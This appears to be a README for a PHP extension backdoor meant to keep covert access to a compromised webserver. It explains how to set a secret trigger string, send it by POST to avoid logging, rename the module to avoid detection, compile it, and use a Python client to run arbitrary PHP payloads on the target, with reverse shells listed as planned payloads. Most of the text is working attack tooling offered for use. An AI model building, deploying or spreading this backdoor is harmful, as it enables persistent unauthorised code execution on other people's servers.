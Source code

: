 # PHP Backdoor Module

This is an example module for adding a backdoor to the PHP installation on a webserver by adding a PHP module. Very useful for mantaining access to a compromised host.

#Build Instructions

First off, you are going to want to edit the "magic string" (or rather, variable), and method. I have set them to POST, because GET variables get logged. You might want to edit some other things so it doesn't show up as "backdoor".

## Linux
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "execute"; // magic string
```

## Windows
```
        char* method = "_POST"; // HTTP method used
        char* secret_string = "secret_string"; // magic string
```

And next, we compile. For windows, I link to the articles (original in Russian, mine in English which is basically a translation I did).

##Windows:
[Original Russian Article][russian]

[English 'translation'][english]

##Linux:
`sudo apt-get install php5-dev`  
`phpize && ./configure && make`

# Use Instructions
In client/ I provide an example Python client which allows executing any arbritary PHP payload on the webserver. I also provide some example payloads in client/payloads/ that you may find useful. 

To use the client, you simply do the following.
```
root@unsanitized:~/dev/php-extension-backdoor/client# ./php_module_client.py http://192.168.1.7 secret_squirrels payloads/getuid.php
Starting execution...
uid: 33
Done!
root@unsanitized:~/dev/php-extension-backdoor/client#
```

Planned payloads include a variety of information gathering payloads, some reverse shells, and other useful utilities that I come up with. I will release those as they prove to be stable/useable soon.

# Credits
Original Russian author, and [akamajoris][akamajoris]. All I did was some translation and writing payloads and client because I found them useful. 

[russian]: http://stackoff.ru/pishem-rasshirenie-bekdor-dlya-php/
[english]: http://example.com/
[akajamoris]: https://github.com/akamajoris
